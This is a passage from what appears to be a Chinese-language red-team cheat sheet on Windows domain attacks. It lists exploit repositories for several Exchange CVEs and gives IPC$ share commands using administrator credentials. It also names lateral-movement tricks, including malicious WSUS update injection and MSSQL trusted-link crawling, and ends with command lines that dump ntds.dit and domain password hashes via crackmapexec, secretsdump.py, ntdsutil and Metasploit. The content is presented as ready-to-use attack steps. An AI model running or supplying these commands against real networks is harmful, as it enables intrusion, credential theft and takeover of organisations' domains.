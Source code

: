 ##### Exchange的利用

- [**Exchange2domain**](https://github.com/Ridter/Exchange2domain)
- [**CVE-2018-8581**](https://github.com/WyAtu/CVE-2018-8581/)
- [**CVE-2019-1040**](https://github.com/Ridter/CVE-2019-1040)
- [**CVE-2020-0688**](https://github.com/Ridter/CVE-2020-0688)
- [**NtlmRelayToEWS**](https://github.com/Arno0x/NtlmRelayToEWS)
- [**ewsManage**](https://github.com/3gstudent/ewsManage)
- [**CVE-2021-26855**](https://github.com/h4x0r-dz/CVE-2021-26855)
- [**CVE-2021-28482**](https://gist.github.com/testanull/9ebbd6830f7a501e35e67f2fcaa57bda)





## 11.IPC

~~~ABAP
net use \\ip\ipc$ "password" /user:"administrator"
net use \\ip\c$ "password" /user:"administrator"


~~~





## 12.其他横移

~~~
1.向WSUS服务器数据库注入恶意程序更新		WSUSpendu.ps1 # 需要先拿下 WSUS 更新分发服务器

2.MSSQL Trusted Links			use exploit/windows/mssql/mssql_linkcrawler

3.GPO Delegation

4.ADCS
~~~







# 10.权限维持

## 拿到域控权限

dump ntds.dit 文件

~~~
crackmapexec smb 127.0.0.1 -u <user> -p <password> -d <domain> --ntds

secretsdump.py '<domain>/<user>:<pass>'@<ip>

ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q

secretsdump.py  -ntds ntds_file.dit -system SYSTEM_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract

windows/gather/credentials/domain_hashdump
~~~
